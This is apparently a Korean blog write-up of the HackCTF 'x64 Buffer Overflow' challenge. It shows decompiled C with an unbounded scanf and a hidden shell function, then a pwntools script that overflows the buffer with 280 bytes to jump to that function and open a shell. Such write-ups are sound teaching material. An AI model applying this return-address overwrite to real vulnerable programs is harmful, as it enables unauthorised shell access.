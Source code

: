 ```yaml
---


---
```


<h1 id="hackctfx64-buffer-overflow">HackCTF:x64 Buffer Overflow</h1>
<h2 id="section">2019-08-12</h2>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &amp;s, envp);
  v5 = strlen(&amp;s);
  printf("Hello %s\n", &amp;s);
  return 0;
}
</code></pre>
<p>scanf() 함수로 272byte 의 배열 s에 입력을 받은 뒤 printf() 함수로 배열 s를 출력한다.</p>
<pre><code>int callMeMaybe()
{
  char *path; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &amp;path, 0LL);
}
</code></pre>
<p>프로그램의 내부에 callMeMaybe()라는 쉘을 호출하는 함수가 포함되어있다.<br>
이번 공격 목표는 scanf()로 BOF 시킨 뒤 RET애 callMeMaybe()를 올리는 것이다.</p>
<p>주의 할 점은 x64에서 SFP의 용량은 8byte이다.</p>
<pre><code>from pwn import *
p = remote('ctf.j0n9hyun.xyz', 3004)
e = ELF('./64bof_basic')

callme = e.sym.callMeMaybe

payload = ''
payload += "A" * 280
payload += p64(callme)

p.sendline(payload)
p.interactive()
</code></pre>

